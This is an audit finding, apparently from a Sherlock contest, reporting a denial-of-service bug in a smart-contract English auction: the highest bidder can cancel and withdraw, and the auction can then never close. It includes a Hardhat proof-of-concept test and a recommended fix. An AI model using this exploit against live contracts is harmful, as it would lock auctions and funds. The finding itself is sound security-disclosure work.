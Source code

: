 Custom Daffodil Flamingo

high

# User could DOS auction

## Summary
User could cancel bid, even he is highest bidder and after that, nobody could not close auction
## Vulnerability Detail
Internal function EnglishPeriodicAuctionInternal._cancelAllBids dont check, is it highest bid. So, user could make very big bid, cancel his highest bid , using function cancelAllBidsAndWithdrawCollateral and no one could not execute function closeAuction(), because there is not funds for pay feeAmount in contract.
```solidity
function _closeAuction
   ...
    if (l.highestBids[tokenId][currentAuctionRound].feeAmount > 0) {
            IBeneficiary(address(this)).distribute{
                value: l.highestBids[tokenId][currentAuctionRound].feeAmount
            }();
        }
```

POC:

Add this code into file test/auction/EnglishPeriodicAuction.ts
```js
  it.only('[POC] auction never end', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const bidAmount = ethers.utils.parseEther('1.1');
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const collateralAmount = feeAmount.add(bidAmount);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount, { value: collateralAmount });

      await time.increase(100);
      console.log('balance before - ' +  await ethers.provider.getBalance(
        bidder1.address,
      ));
      await instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0);
      console.log('balance after -  ' +  await ethers.provider.getBalance(
        bidder1.address,
      ));
      const highestBid = await instance['highestBid(uint256,uint256)'](0, 0);
      expect(highestBid.bidder).to.be.equal(bidder1.address);
      await instance['closeAuction(uint256)'](0);

    });
```
## Impact
The auction will never end
## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434
## Tool used

Manual Review

## Recommendation
Dont allow cancel bid, if its highest bid in cancelAllBidsAndWithdrawCollateral() 
